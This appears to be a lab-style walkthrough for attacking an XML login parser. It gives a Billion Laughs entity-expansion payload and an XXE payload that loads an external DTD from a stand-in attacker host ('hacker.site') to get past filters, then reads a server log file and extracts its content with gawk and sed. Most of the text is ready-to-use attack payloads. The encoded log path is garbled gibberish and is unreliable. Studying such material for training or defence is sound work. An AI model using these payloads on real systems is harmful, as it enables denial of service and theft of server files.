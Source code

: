 - Open the stats path and check the Physical Memory percentage status.

- Run the Billion laughs attack against the login parser. If the attack works properly, youll notice an alert box with the instructions.

> [NOTE] The server implements some filers to avoid XEE attacks. To exploit the flaw, the fastest solution is to move the Billion laughs attack in an external DTD file hosted on hacker.site (replace it with the IP address of your attacker machine), and then call it as follows:

xml payload
```xml
<?xml version="1.0"?>
<!DOCTYPE results [
    <!ENTITY % EvilDTD PUBLIC "xxe"
        "http://hacker.site/evil_remote_xee.dtd">
    %EvilDTD;
]>
<login>
    <username>XEEME &file;</username>
    <password>password</password>
</login>
```

> [Note] make sure to replace hacker.site with the IP address of your attacker machine.

file: evil_remote_xee.dtd
```xml
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
```

Run an XXE attack to read the log file and clear useless text.

> [NOTE] Due to some restrictions, to prevent XEE attacks, long URLs might break the payload. To bypass this limitation, we can move the payload in another external dtd as we did before.

Encode the log path:
```bash
%7B%5B_%C4%BF.%C3%B2.%C4%9D.%C5%9B_%5D%7D%2F%F0%9D%95%86%E3%8E%8E%E2%80%A6%C3%A0%E2%80%A2d%F0%9D%93%B8s.%E3%8F%92
```

Extract the content from the result. Use awk or gawk, depends on the system:
```bash
gawk 'match($0, /<b>XXEME (.*)<\\\/b>\s/, m) { print m[1] }'
```

Remove JSON escaping characters:
```bash
sed 's/\\\//\//g'
```
